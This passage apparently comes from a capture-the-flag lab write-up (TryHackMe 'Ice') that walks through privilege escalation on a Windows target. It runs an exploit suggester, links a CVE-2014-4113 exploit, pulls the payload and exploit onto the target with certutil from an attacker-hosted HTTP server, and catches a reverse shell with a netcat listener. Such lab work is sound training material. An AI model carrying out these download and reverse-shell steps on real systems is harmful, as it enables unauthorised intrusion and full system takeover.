 ![Exploit Suggester Database|340](images/thm-ice/exploit-suggester-db.png)

```
./windows-exploit-suggester.py --database 2021-03-12-mssb.xls --systeminfo ../systeminfo.txt > exploits.txt
```

![Running Exploit Suggester](images/thm-ice/exploit-suggester.png)

**Note:** `[E]` exploitDB PoC, `[M]` Metasploit module, `[*]` missing bulletin

The script was able to find multiple vulnerabilities that are possibly present in the system. MS14–058 looks like it allows us to execute remote code on the system so let's see if we can find code for this vulnerability.

[windows-kernel-exploits/CVE-2014-4113-Exploit.rar at master · SecWiki/windows-kernel-exploits · GitHub](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS14-058/CVE-2014-4113-Exploit.rar)

![CVE Details|540](images/thm-ice/csv-details-github.png)

Now we need to create a payload so that we run the payload using the exploit we can get a session with system privileges.

![Creating exploit using Msfvenom](images/thm-ice/msfvenom-payload-creation.png)

Now that we have our payload and exploit let's upload them onto the target machine. For this, on your machine, we can set up a Python HTTP Server and use certutil on Windows to download the files from the server

```
python3 -m http.server 1234

certutil -urlcache -f http://<server-ip-address>:<port>/<filename> <output-filename>
```

![Downloading File 1](images/thm-ice/downloading-file-1.png)

![Downloading File 2](images/thm-ice/downloading-file-2.png)

[Downloading Files with Certutil - Red Team Notes](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)

So that we can connect to the reverse shell that the payload with create we need to set up a Netcat listener

```
netcat -nvlp 1235
```

Let's run the payload using the exploit on the target machine

![Running Exploit|350](images/thm-ice/running-exploit-2.png)

![List Current User|480](images/thm-ice/listing-users.png)
